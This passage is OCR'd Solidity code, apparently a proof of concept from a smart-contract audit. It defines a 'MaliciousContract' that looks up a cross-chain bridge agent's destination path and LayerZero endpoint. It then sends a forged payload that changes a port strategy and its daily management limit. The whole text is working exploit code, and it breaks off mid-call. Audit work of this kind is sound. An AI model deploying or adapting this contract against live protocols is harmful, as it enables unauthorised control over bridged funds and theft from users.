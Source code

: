 ```solidity
  function bridgeAgentAddress() external view returns (address);
}

interface IBridgeAgent {
  function getBranchBridgeAgentPath(uint256 chainId) external view returns (bytes memory);
  function lzEndpointAddress() external view returns (address);
}

contract MaliciousContract {

  uint32 settlementNonce = 1;
  bytes destinationPath;
  address lzEndpointAddress;

  function setDestinationPath(address CoreRootRouter, uint256 dstChainId) public {
    address bridgeAgentAddress = ICoreRootRouter(CoreRootRouter).bridgeAgentAddress();
    destinationPath = IBridgeAgent(bridgeAgentAddress).getBranchBridgeAgentPath(dstChainId);
    lzEndpointAddress = IBridgeAgent(bridgeAgentAddress).lzEndpointAddress();
  }

  function hijackedPortStrategy(
    address _portStrategy,
    address _underlyingToken,
    uint256 _dailyManagementLimit,
    bool _isUpdateDailyLimit,
    address _refundee,
    uint16 _dstChainId,
    GasParams calldata _gParams,
    address CoreRootRouter
  ) external payable {
    // Encode CallData
    bytes memory params = abi.encode(_portStrategy, _underlyingToken, _dailyManagementLimit, _isUpdateDailyLimit);

    // Pack funcId into data
    bytes memory _payload = abi.encodePacked(bytes1(0x06), params);

    //Encode Data for call.
    bytes memory payload = abi.encodePacked(bytes1(0x00), _refundee, settlementNonce++, _payload);

    setDestinationPath(CoreRootRouter, _dstChainId);

    _performCall(_dstChainId, payable(_refundee), payload, _gParams, lzEndpointAddress);
  }

  function _performCall(
    uint16 _dstChainId,
    address payable _refundee,
    bytes memory _payload,
    GasParams calldata _gParams,
    address lzEndpointAddress
  ) internal {

    ILayerZeroEndpoint(lzEndpointAddress).send{value: msg.value}(
        _dstChainId,
        // getBranchBridgeAgentPath[_dstChainId],
        destinationPath,
        _payload,
        _refundee,
        address(0),
        // abi.encodePacked(uint16(2), _gParams.gasLimit, _gParams.remoteBranchExecutionGas, callee)
```